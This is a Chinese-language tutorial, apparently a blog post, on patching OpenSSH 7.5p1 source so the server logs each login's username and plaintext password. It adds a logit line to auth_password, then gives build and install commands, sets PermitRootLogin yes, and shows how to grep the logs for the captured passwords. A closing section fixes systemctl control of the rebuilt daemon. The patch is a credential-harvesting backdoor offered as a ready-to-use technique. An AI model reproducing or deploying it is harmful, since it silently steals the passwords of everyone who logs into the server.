

# ssh日志记录登陆密码

# ssh记录登陆密码

了解到ssh自身不记录登陆的用户名密码

但我们可以通过修改ssh源码或者打补丁的方式来实现对远程登陆用户密码的记录

只需修改ssh源码或者打补丁重新编译，安装

即可获得一个新的ssh用户端

## 过程

### 1、准备环境

安装对应的openssh源码包

```sh
wget https://mirror.leaseweb.com/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz


# 各个版本源码下载
# https://mirror.leaseweb.com/pub/OpenBSD/OpenSSH/portable/
```

创建相应的安装配置路径

```sh
mkdir -p /opt/ssh7.5p1/conf
```

当然还要安装相应依赖，这一步关乎后面的编译是否成功

注意debian和centos的依赖包名还不一样

\#centos

```bash
yum install gcc zlib-devel openssl-devel pam-devel pam-krb5 krb5-devel krb5-libs -y
```

\#debian

```bash
apt-get install gcc zlib1g-dev  libssl1.0-dev -y  # centos指令已经优化，这个没有
```

### 2、修改源码

解压刚下载的源码包

```sh
tar -zxvf openssh-7.5p1.tar.gz
```

进入目录

```sh
cd openssh-7.5p1
```

对源码进行一些修改

增加在日志中添加登陆用户名密码的功能

```sh
vim auth-passwd.c
```

添加一段代码

```c
#找到函数auth_password，添加
logit("username: %s password: %s", authctxt->user, password);
```


### 3、编译安装

开始编译

```bash
./configure --prefix=/usr \
	--sysconfdir=/etc/ssh \
	--with-pam --with-zlib \
	--with-ssl-dir=/usr \
	--with-md5-passwords \
	--mandir=/usr/share/man \
	--with-kerberos5=/usr/lib64/libkrb5.so
```

> *#参数说明*
>
> --prefix=/usr \  #安装目录
> --sysconfdir=/etc/ssh \ #配置文件目录
> --with-pam --with-zlib \ # PAM headers not found 
> --with-ssl-dir=/usr \
> --with-md5-passwords \
> --mandir=/usr/share/man \
> --with-kerberos5=/usr/lib64/libkrb5.so  # (防止出现Unsupported option GSSAPIAuthentication 和 Unsupported option GSSAPICleanupCredentials)

在没有报错的情况下

进一步

```bash
make
make install
```

之后就可以启动使用

```sh
/opt/ssh7.5p1/sbin/sshd
```

默认22端口，记得先把原先ssh停掉


**注：ssh升级后，默认关闭root远程登录，如果需要，请打开5、如果无法登录，请修改/etc/pam.d/sshd**

### 4、登陆配置修改

按照前面设定的配置目录找到sshd_config

```sh
#修改配置文件
vim /opt/ssh7.5p1/conf/sshd_config
```

就跟正常改ssh配置文件操作一样，像允许远程用户登陆、修改端口

```perl
#修改端口
Port 1022
#允许root账号登陆
PermitRootLogin yes
```

### 5、日志查看

centos和debain日志位置不同

```sh
#centos
grep 'username:' /var/log/messages
```

```sh
#debian
grep 'username:' /var/log/auth.log
```

远程登陆一波

运行结果如下：



# systemctl命令无法管理sshd服务问题解决

## 解决方法

以下是我当前情况的解决方案，不代表所有类似情况都适用。

将源码安装包中 contrib/redhat/sshd.init 文件复制到 /etc/init.d/ 目录下并添加可执行权限。

```bash
cp contrib/redhat/sshd.init /etc/init.d/
chmod +x /etc/init.d/sshd.init
```

然后,使用该脚本启动sshd服务

```bash
/etc/init.d/sshd.init start
```

这时，/run/systemd/generator.late/ 目录下会产生一个名为 sshd.service的 systemd 服务配置文件。
将这个文件复制到 systemd 的服务配置文件目录下

```bash
cp /run/systemd/generator.late/sshd.service  /usr/lib/systemd/system/sshd.service
```

这时再通过systemctl命令操作sshd服务就正常了。
查看该自动生成的service配置文件设置可见，对应的启动、停止等命令都已经换成了对 sshd.init 脚本的操作，而不是原来的对 /usr/sbin/sshd 命令的操作。
文件内容如下：

```bash
# Automatically generated by systemd-sysv-generator

[Unit]
Documentation=man:systemd-sysv-generator(8)
SourcePath=/etc/rc.d/init.d/sshd.init
Description=SYSV: OpenSSH server daemon

[Service]
Type=forking
Restart=no
TimeoutSec=5min
IgnoreSIGPIPE=no
KillMode=process
GuessMainPID=no
RemainAfterExit=no
PIDFile=/var/run/sshd.pid
ExecStart=/etc/rc.d/init.d/sshd.init start
ExecStop=/etc/rc.d/init.d/sshd.init stop
ExecReload=/etc/rc.d/init.d/sshd.init reload
```

